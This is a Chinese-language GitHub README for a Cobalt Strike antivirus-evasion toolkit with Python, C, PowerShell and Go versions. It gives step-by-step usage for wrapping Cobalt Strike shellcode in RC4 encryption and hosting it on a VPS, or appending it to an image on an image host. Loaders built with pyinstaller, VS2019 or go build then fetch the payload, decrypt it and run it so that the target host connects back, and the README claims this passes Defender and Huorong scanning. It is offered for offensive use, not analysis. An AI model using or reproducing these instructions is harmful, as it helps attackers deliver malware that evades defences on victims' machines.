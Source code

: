 <h1 align="center">CS-Avoid-killing 🏏</h1>

CS免杀,包括python版和C版本的(经测试Python打包的方式在win10上存在bug,无法运行,Win7测试无异常

V1.0: 目前测试可以过Defender/火绒的静杀+动杀,360还没测= =不想装360全家桶了,可以自行测试

下一步开发计划:

V1.5: 加入C版本CS免杀(已完成)

V1.7:加入Powershell的免杀(已完成)

~~V2.0:开发出UI界面~~

V2.0: 开发成在线免杀平台(已完成)

> PS: 在实际使用中发现图形化界面不利于和其他工具结合,相比之下命令行的方式更具有扩展性
> 
> 关于自己写的在线免杀平台,暂不考虑开源,主要是觉得目前的技术还比较薄弱,如果有想加入团队一起研发的师傅或者是想体验可以联系我

V3.0: 想办法结合更多免杀技术(想去研究下进程注入/文件捆绑,不知道免杀效果怎样)

- V3.1 增加了go版本(可过火绒/360/defender)

- V4.0 通用混淆项目：http://39.102.210.108:8080/

## 依赖环境

python: 

- python2
- pyinstaller
- requests

C: VS2019默认就够了

Powershell: Win10上测试没有问题,也就是ps5.1,更低版本未测试

go: go

## 安装

`git clone https://github.com/wgpsec/CS-Avoid-killing.git`

## 使用

1. 先通过CS生成C格式的shellcode:` Attacks -> packages -> Payload Generator `选择一个listener然后生成一个C的shellcode(其实就是二进制代码)

2. Python版:

   > 1. 将生成的shellcode填入generator.py的shellcode变量中,填入一个Key,用于后续的RC4加密
   > 2. 运行generator.py,生成的payload自动保存在payload.txt中.
   > 3. 将payload.txt上传到你的VPS中,后续生成的加载器会从VPS中获取加密shellcode并在本地解密后执行
   > 4. 将在VPS上的payload路径填入PyLoader.py的url变量中,填入你刚刚设置的Key
   > 5. 用`python pyinstaller.py -F -w PyLoader.py`打包文件,可执行文件在pyshellcode文件夹下的dist中,双击运行可以看到主机上线

3. C版本:

   > 1. 按要求填入你自己的Key,shellcdoe长度和shellcode,执行
   > 2. 将第一行的数字复制进Loader的Base64ShellLen字段中,将第二行生成的加密shellcode保存在payload.txt文件中并将其放在服务器上(~~如果不叫这名或者不在跟路径,需要自己改`char request[1024] = "GET /RC4Payload32.txt HTTP/1.1\r\nHost:";`中的路径)
   > 在path中填入可以访问到payload的路径即可(Ex: /test/payload.txt)
   > 3. 在Loader中填入自己的Key和VPS的IP,编译
   > 4. 执行编译出的exe,CS上线
   
4. Powershell版本:

   > 1. 在CS中生成Powershell版本的payload.ps1
   > 2. Python3 PSconfusion.py payload.ps1 AVpayload.ps1
   > 3. 经测试能过目前所有杀软的静杀,动杀的话,由于CS中有些模块不免杀,所以加载这些模块时可能会触发动杀,这个以后再研究怎么绕过
   
5. go版本:

   > 1. 将一张不要太大的图片放入同一文件夹下
   > 2. 将生成的shellcode填入generator.py的shellcode变量中, 执行`python generator YourRC4key ImageName` ,生成的shellcode会自动追加到图片末尾
   > 3. 将图片上传至图床(找那种不会压缩的图床,保证shellcode不会被删掉)
   > 4. 将图片url和你的RC4key填入CS-Loader.go的相应位置
   > 5. 使用命令`go build -ldflags="-H windowsgui" CS-Loader.go`生成exe,可以用upx压缩下
   > 6. 执行exe,CS上线

## 注意

1. pyinstaller安装细节

   > 最后一个支持python2的版本是3.6(最新版pyinstall不再支持python2)
   >
   > 网址:https://github.com/pyinstaller/pyinstaller/releases
   >
   > 需要安装pywin32:https://github.com/mhammond/pywin32

2. 目标是什么环境就在什么环境上打包,否则可能会出现无法上线的情况,不推荐使用py3对项目进行改造,ctypes对py3的支持不太好,会有些莫名其妙的bug

3. 经过测试,C版本在X86Debug模式编译下无任何问题,Release模式下会存在莫名bug,在某些电脑上无法正常上线,请根据需求自行测试

4. 编译选项不要选择动态编译,否则可能会因为目标靶机上缺少相应dll而无法运行.

5. 加载ps脚本的方式这里不做讨论,有师傅已经总结的非常好了,请自行百度

6. go版本build前建议先`set GOARCH=amd64`,同时使用64位的shellcode,32位打包出来的程序会报一个在ntdll中找不到函数的错误,曾有人提问过:https://stackoverflow.com/questions/58649055/failed-to-find-rtlcopymemory-procedure-in-ntdll-dll-only-when-goarch-386

